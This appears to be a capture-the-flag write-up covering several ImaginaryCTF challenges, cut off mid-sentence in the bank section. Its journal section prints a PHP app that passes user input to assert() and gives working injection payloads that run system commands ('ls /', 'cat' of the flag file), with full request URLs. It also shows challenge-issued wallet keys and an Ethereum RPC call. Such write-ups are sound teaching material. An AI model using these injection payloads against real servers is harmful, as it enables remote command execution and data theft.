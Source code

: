 ## readme [Web]

As we can see the node image does not have directly vulnerabilities:

![1721475135878](image/writeup/1721475135878.png)

I think there is some sort of request smuggling in order to make a second request to the flag.txt since the root in the nginx config is in `root /app/public;`.


## journal [Web]

Description: `dear diary, there is no LFI in this app`

We have the following php file:

```php
<?php

echo "<p>Welcome to my journal app!</p>";
echo "<p><a href=/?file=file1.txt>file1.txt</a></p>";
echo "<p><a href=/?file=file2.txt>file2.txt</a></p>";
echo "<p><a href=/?file=file3.txt>file3.txt</a></p>";
echo "<p><a href=/?file=file4.txt>file4.txt</a></p>";
echo "<p><a href=/?file=file5.txt>file5.txt</a></p>";
echo "<p>";

if (isset($_GET['file'])) {
  $file = $_GET['file'];
  $filepath = './files/' . $file;

  assert("strpos('$file', '..') === false") or die("Invalid file!");

  if (file_exists($filepath)) {
    include($filepath);
  } else {
    echo 'File not found!';
  }
}

echo "</p>";

```

The vulnerability can be found here at hacktricks blog:

<https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert>


However it does not work, to work we need to change it a bit:

' or die(system("ls /")) or '

Final payload to get the flag name:

<http://journal.chal.imaginaryctf.org/?file=%27%20or%20die(system(%22ls%20/%22))%20or%20%27>

![1721476843045](image/writeup/1721476843045.png)

To get the flag:

' or die(system("cat /flag-cARdaInFg6dD10uWQQgm.txt")) or '

http://journal.chal.imaginaryctf.org/?file=%27%20or%20die(system(%22cat%20/flag-cARdaInFg6dD10uWQQgm.txt%22))%20or%20%27


![1721476935202](image/writeup/1721476935202.png)

Flag: ictf{assertion_failed_e3106922feb13b10}


## p2c [Web]

Description: `Welcome to Python 2 Color, the world's best color picker from python code!`

It uses a specific version of flask which is a red flag: `RUN pip install flask==3.0.3`


## bank [misc]

Description: `Can you steal the bank's money?`

```
$ nc 34.135.172.71 40000
[1] Get an instance
[2] Get the flag
Choice: 1
contract address: 0x8e0508E8F8189A9774099aDCC78Fb38d4a626e67
rpc-url: http://34.46.30.131:41766
Wallet private-key: 0xe25351a5d88840ad4d755caf9405abfa60cc60696447c13c549e6184536a8980
Wallet address: 0x4eF4224877EB636264Ca95A2320686486328a150
Secret: 6f574c60e6146e4f9241c4855ea6d6be972bc3409eade0b062793a4c39dafdaf
Please save the provided secret, it will be needed to get the flag

```

```
$ nc 34.135.172.71 40000
[1] Get an instance
[2] Get the flag
Choice: 2
Please enter the hash provided during deployment: 

```

After we generate our information we need to be able to use the contract however i was unable to call with the following:

curl -X POST --data '{"jsonrpc":"2.0","method":"eth_sendTransaction","params":[{"from":"0x323394B10A26a2B2fd5C87D04a1B576BeD286D54" , to":"0x0d4E9CeE18C4c55eeE0EeB958d583803853cBCe1", "data":"0x98e1b410000000000000000000000000000000000000000000000000000000000000000000"}]}' -H "Content-Type: application/json" 34.135.172.71:44514

So i created a python script to connect to it but a ABI was still necessary. ABI is like a json interface for the contract:

docker run -v $(pwd):/sources ethereum/solc:stable -o /sources/output --abi --bin /sources/Bank.sol

After i added the abi i was able to call the methods in the contract and got ischallsolved to return True. However i dont know what they mean by hash of the deployment.

Is kinda sus why they have a getmoney method with a comment and nothing in there: `// Used for deployment, can be safely ignored`. Is there 